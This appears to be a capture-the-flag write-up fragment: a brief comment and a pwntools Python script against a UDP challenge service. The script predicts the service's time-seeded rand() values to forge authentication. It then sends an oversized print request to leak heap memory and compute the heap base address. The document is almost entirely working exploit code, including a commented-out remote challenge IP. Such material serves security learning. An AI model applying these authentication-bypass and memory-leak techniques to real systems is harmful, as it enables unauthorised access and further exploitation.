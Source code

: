 I use this code to locate a server and easily to debug and connect with `nc -u 0 9981` in my local machine or just use pwntools

```python
from pwn import *
from ctypes import *
import socket 
from time import sleep 
import sys

libc=ELF('./libc.so.6')
glibc = cdll.LoadLibrary('libc.so.6')
#io=remote('157.245.147.89', 24210, typ="udp")
io=remote('0', 9981, typ='udp')

opcode=[0x301, 0x101, 0x201]

def printdata(size, data):
    pl=p32(0x70303070)
    pl+=p32(opcode[0])
    pl+=p16(size)
    pl+=data
    io.send(pl)
    
plain=b''
session=b''
def genarate_rand_string(size=0, data=0):
    global plain
    pl=p32(0x70303070)
    pl+=p32(opcode[1])
    pl+=p16(size)
    pl+=b'A'*100
    io.send(pl)
    glibc.srand(glibc.time(None))
    for i in range(32):
        plain+=p8(glibc.rand() & 0xff)    
    print(plain.hex())
    data= io.recv()
    return data
    
def authenticate(size=0):
    global session
    pl=p32(0x70303070)
    pl+=p32(opcode[2])
    pl+=p16(0x100)
    pl+=plain
    io.send(pl)
    data= io.recv()
    session=io.recv()
    print(data)
    return session
     
genarate_rand_string()  
a=authenticate()
print(a)
pause()
printdata(0xfff, b'A'*0xfff)
print(io.recv())
data=io.recv(0x1000)
heap=u64(data[4:10].ljust(8, b'\0')) - 0x4ba0
print(hex(heap))
```
